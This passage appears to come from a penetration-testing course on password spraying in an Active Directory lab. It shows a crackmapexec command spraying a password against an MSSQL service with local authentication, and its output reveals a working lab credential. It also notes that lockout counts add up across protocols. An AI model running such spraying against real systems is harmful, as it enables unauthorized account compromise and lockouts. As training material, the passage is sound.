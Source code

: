 {% hint style="info" %}
**Note:** Since this is a Domain Controller, Windows local accounts have not been used. This example will apply when targeting a non-Domain Controller machine with local windows accounts.
{% endhint %}

Commonly administrators may create accounts with the same name as their Active Directory accounts for local usage or testing. We may find MSSQL accounts created with the same name and password as the Active Directory account. Password reuse is very common! If we want to try a SQL Account, we need to specify the flag `--local-auth`:

### **Password Spray - SQL Account**

```shell-session
$ crackmapexec mssql 10.129.203.121 -u julio grace  -p Inlanefreight01! --local-auth

MSSQL       10.129.203.121  1433   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:DC01)
MSSQL       10.129.203.121  1433   DC01             [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'julio'.
MSSQL       10.129.203.121  1433   DC01             [+] grace:Inlanefreight01!
```

As we can see, the account `grace` exists locally in the MSSQL database with the same password.

***

## Other Protocols

Remember that sometimes a user may not be an administrator, but they may have privileges to access other protocols such as RDP, SSH, FTP, etc. It is crucial when performing Password Spraying to understand the target and try to attack as many protocols as possible.

{% hint style="info" %}
**Note:** When we are doing Password Spray using Active Directory authentication, the count of failed password attempts will be the same for all protocols. For example, if the lockout limit is five attempts and we try three passwords using RDP and two passwords against WinRM, the count will reach 5, and we will have caused the account to be locked out.
{% endhint %}
